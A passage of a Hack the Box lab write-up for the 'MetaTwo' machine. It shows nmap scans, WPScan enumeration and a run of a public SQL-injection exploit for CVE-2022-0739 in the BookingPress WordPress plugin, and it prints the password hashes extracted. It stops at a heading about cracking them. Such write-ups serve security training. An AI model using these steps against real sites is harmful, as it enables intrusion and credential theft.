 # Hack the Box - MetaTwo

```CSS
IP: 10.10.11.186 - Linux
CMS: WordPress
```

## Open TCP Ports
### NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.11.186 -T4 --max-rate 1000 -oN open-ports.nmap

Nmap scan report for 10.10.11.186
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh                                                                     
80/tcp open  http                                                                                                                                                          
                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 608.38 seconds
```

## Open TCP Ports - Enumeration
### NMAP
```CSS
▶ nmap -sC -sV -p 21,22,80 10.10.11.186 -oN enum-ports.nmap

Nmap scan report for 10.10.11.186
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh                                                                     
80/tcp open  http                                                                                                                                                          
                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 608.38 seconds
▶ nmap -sC -sV -p 21,22,80 10.10.11.186 -oN enum-ports.nmap                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-19 13:13 IST
Nmap scan report for 10.10.11.186
Host is up (0.18s latency).
                                          
PORT   STATE SERVICE VERSION
21/tcp open  ftp?                                                                    
| fingerprint-strings:                                                               
|   GenericLines:                                                                    
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]           
|     Invalid command: try being more creative
|_    Invalid command: try being more creative 
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:                                                                       
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)            
80/tcp open  http    nginx 1.18.0                                                                                                                                          |_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/            
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service 
:                                                                                    
SF-Port21-TCP:V=7.93%I=7%D=4/19%Time=643F9BA1%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,8F,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:10\.10\
SF:.11\.186\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cre
SF:ative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creative
SF:\r\n");                                                                                                                                                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel      
                                                                                                                                                                           
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 214.25 seconds
```

---

## WebServer
### Homepage
![image](https://user-images.githubusercontent.com/83878909/233007255-a55cb9c3-366e-4829-a1f8-9638da827959.png)
### Events
![image](https://user-images.githubusercontent.com/83878909/233008739-59e1f807-2a3d-4aa3-8330-d1f533cc569b.png)
### Events - Page Source
![image](https://user-images.githubusercontent.com/83878909/233020210-57f0a1ac-3af7-4f34-985a-6dd1647cdff2.png)

- CMS: `WordPress`
- Plugin: `Booking Press Appointment Booking`

---

## WordPress
### WPScan
```
▶ wpscan --url http://metapress.htb --disable-tls-checks --plugins-detection aggressive
```
### Wordpress Version
![image](https://user-images.githubusercontent.com/83878909/233022798-dfaef73b-dda4-4102-89f9-dee2e61aa871.png)
### Plugins
![image](https://user-images.githubusercontent.com/83878909/233045498-7825f211-1b68-4654-a7e0-31e5071e8186.png)

---

## Exploit (CVE-2022-0739)
### SQL Injection
  - Expolit: https://github.com/destr4ct/CVE-2022-0739

```CSS
▶ python booking-press-expl.py --url http://metapress.htb --nonce 55b094723b
```
![image](https://user-images.githubusercontent.com/83878909/233048115-82eca30b-607b-466f-820d-1c011dc1c67c.png)
  - Password Hashes
```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

### Crack Hashes
